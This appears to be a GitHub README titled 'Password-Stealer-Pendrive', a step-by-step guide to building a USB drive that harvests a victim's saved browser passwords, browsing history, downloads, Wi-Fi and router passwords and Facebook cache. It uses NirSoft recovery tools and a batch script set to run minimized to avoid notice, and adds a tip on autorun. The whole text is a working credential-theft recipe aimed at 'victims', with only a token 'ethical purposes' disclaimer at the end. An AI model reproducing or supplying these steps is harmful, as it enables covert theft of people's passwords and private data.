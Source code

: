 # Password-Stealer-Pendrive


By using this process you can get the victims:

      Browser Downloads
      Browser History
      Browser Saved Passwords
      Facebook Cache
      Wifi History
      Router Passwords
      and others.....

All the process are done for you in Release option!!
(But you still have to make shortcut so that  Start.bat  runs in minimized window)

You can download it and directly add it to your pendrive.

First of all go to this link https://www.nirsoft.net/password_recovery_tools.html


Then read the instructions and download those softwares
Then extract the .zip file and only save the extraxted files in your pendrive


Then delete:

      Dailupass.exe
      netpass.exe
      x64 (folder)
      
      
      
Then download:

      https://www.nirsoft.net/utils/browsing_history_view.html
      https://www.nirsoft.net/utils/web_browser_downloads_view.html
      https://www.nirsoft.net/utils/process_tcp_summary.html
      https://www.nirsoft.net/utils/router_password_recovery.html
      https://www.nirsoft.net/utils/facebook_cache_viewer.html
    
Your pendrive will look like this after downloading all the above files:

https://i.imgur.com/36rvypD.png



Finally, Create a folder named  Passwords

then create a file named  Start.bat 

Open Start.bat with notepad

Finally paste the code below:

      start BrowserDownloadsView.exe /stext Passwords\BrowserDownloads.txt
      start BrowsingHistoryView.exe /stext Passwords\BrowsingHistory.txt
      start ChromePass.exe /stext Passwords\ChromePass.txt
      start iepv.exe /stext Passwords\iepv.txt
      start mailpv.exe /stext Passwords\mailpv.txt
      start mspass.exe /stext Passwords\mspass.txt
      start PasswordFox.exe /stext Passwords\PasswordFox.txt
      start ProcessTCPSummary.exe /stext Passwords\ProcessTCPSummary.txt
      start PstPassword.exe /stext Passwords\PstPassword.txt
      start RouterPassView.exe /stext Passwords\RouterPassView.txt
      start WebBrowserPassView.exe /stext Passwords\WebBrowserPass.txt
      start WifiHistoryView.exe /stext Passwords\WifiHistoryView.txt
      start FBCacheView.exe /stext Passwords\FBCache.txt

then,

Create a shortcut for  Start.bat  named Start

then,

Right click on the shortcut you created 

Left click on Properties and in  Run  set it to  Minimized 

So you have successfully created a data stealer pendrive.

Your Pendrive should look like this:

https://i.imgur.com/44TPRS2.png

To start the stealing process you just have to click the  Start  shortcut then cmd will be opened in background and will save all the information to your pendrive.

TIP:

You can also make pendrive autorun itself when inserted:

Search in Youtube how to do that.




NOTE:
Use these programs for ethical purposes only. I am not responsible for any thing you do!!
